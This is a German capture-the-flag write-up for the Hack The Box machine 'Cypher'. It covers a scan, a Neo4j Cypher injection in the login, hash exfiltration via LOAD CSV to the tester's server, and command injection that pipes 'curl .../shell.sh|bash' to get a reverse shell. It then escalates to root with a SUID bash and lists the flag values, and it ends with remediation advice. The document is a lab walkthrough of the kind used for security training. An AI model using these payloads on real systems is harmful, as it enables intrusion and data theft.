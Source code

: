 # Maschine 2: Cypher


## 1  Netzwerkanbindung

```bash
sudo openvpn ~/Desktop/lab_lyfe691.ovpn
```

![*Bild → `vpn_connected.png`*](image.png)

---

## 2  Zielerkennung

```bash
nmap -sV -A -T4 10.10.11.57 -oN nmap_cypher.txt
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

![alt text](Screenshot_2025-05-05_14_11_01.png)

Host‑Alias eingerichtet:

```bash
10.10.11.57   cypher.htb
```

![alt text](Screenshot_2025-05-05_14_12_29-1.png)

---

## 3  Web‑Enumeration

Dirsearch‑Treffer:

```
/about
/api/  -> /api/docs
/demo  -> /login
/login
/testing/
```

![alt text](Screenshot_2025-05-05_14_28_23-2.png)

Der Login meldete bei manipulierten Eingaben einen Neo4j‑Fehler – Beweis für unsichere String‑Konkatenation.

![alt text](Screenshot_2025-05-05_14_49_33-1.png)

---

## 4  Hash‑Exfiltration via LOAD CSV

Python‑HTTP‑Server (Port 8000) gestartet, dann Payload:

```json
{
  "username": "admin' OR 1=1  LOAD CSV FROM 'http://10.10.14.204:8000/leak='+h.value AS y RETURN ''//",
  "password": "123"
}
```

Server‑Log zeigte die Abfrage inkl. Hash:

```
GET /leak=9f54ca... HTTP/1.1
```

![alt text](Screenshot_2025-05-05_15_19_21.png)

---

## 5  RCE über custom.getUrlStatusCode

`shell.sh` wurde per HTTP ausgeliefert, Listener auf Port 9001.

Payload:

```json
{
  "username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;curl http://10.10.14.204:8000/shell.sh|bash;') YIELD statusCode AS value RETURN value;//",
  "password": "123"
}
```

Die Shell poppte als **neo4j**:

```
uid=997(neo4j) gid=995(neo4j)
```

![alt text](Screenshot_2025-05-05_15_48_30-1.png)

---

## 6  Privilege Escalation → root

1. **Passwort in `bbot_preset.yml`** gefunden (Zeile 10).
2. Da `su graphasm` scheiterte, setzten wir mittels SUID‑Bash direkt auf root:

```bash
/tmp/bash -p
root@cypher:/# id
uid=0(root) gid=0(root)
```

/home/kali/Pictures/Screenshot_2025-05-05_15_50_40.png
---

## 7  Flags

```bash
/home/graphasm/user.txt  -> 0a4de27fa731a210ead73b20dfc80140
/root/root.txt           -> e5577526fb5f80c5cb113cde4111ab3d
```

![alt text](<Screenshot 2025-05-05 at 15-53-50 Hack The Box Hack The Box.png>)

link: https://www.hackthebox.com/achievement/machine/2350832/650

---

## 8  Empfehlungen

1. **Parametrisierte Cypher‑Queries** einsetzen, niemals Strings konkatenieren.
2. Unsichere APOC‑Funktionen entfernen oder absichern.
3. **sudo‑Rechte** auf das notwendige Minimum beschränken.
4. Keine Klartext‑Passwörter in Konfigurationsdateien.

---

✅ **Cypher komplett owned**
